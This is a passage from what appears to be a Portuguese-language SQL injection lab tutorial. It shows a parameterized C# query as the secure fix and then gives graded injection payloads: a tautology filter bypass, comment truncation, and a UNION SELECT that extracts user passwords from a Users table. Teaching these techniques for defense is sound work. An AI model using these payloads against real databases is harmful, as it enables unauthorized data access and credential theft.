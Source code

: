```csharp
// ✅ SEGURO - Use consultas parametrizadas
cmd.CommandText = @"SELECT * FROM ""Product"" WHERE ""Name"" LIKE @searchString";
cmd.Parameters.AddWithValue("@searchString", $"%{searchString}%");
```

## 🧪 Experimentos

### Nível 1: Básico - Bypass de Filtro

**Objetivo**: Retornar todos os produtos ao invés de apenas os correspondentes.

**Payload**:
```sql
' OR '1'='1
```

**O que acontece**:
- A condição `'1'='1'` é sempre verdadeira
- Todos os produtos são retornados

**Query resultante**:
```sql
SELECT * FROM "Product" WHERE "Name" LIKE '%' OR '1'='1%'
```

### Nível 2: Comentários - Ignorar Resto da Query

**Objetivo**: Usar comentários SQL para ignorar o resto da query.

**Payload**:
```sql
' OR 1=1 --
```

**O que acontece**:
- `--` é o comentário de linha no SQL
- Tudo após `--` é ignorado
- A query retorna todos os registros

**Query resultante**:
```sql
SELECT * FROM "Product" WHERE "Name" LIKE '%' OR 1=1 --%'
```

### Nível 3: UNION - Exfiltração de Dados

**Objetivo**: Combinar resultados de outra tabela (Users) com a consulta original.

**Payload**:
```sql
' UNION SELECT "Id","Name","Password" FROM "Users" --
```

**O que acontece**:
- `UNION` combina resultados de duas consultas
- Expõe dados da tabela Users
- Mostra senhas em texto plano
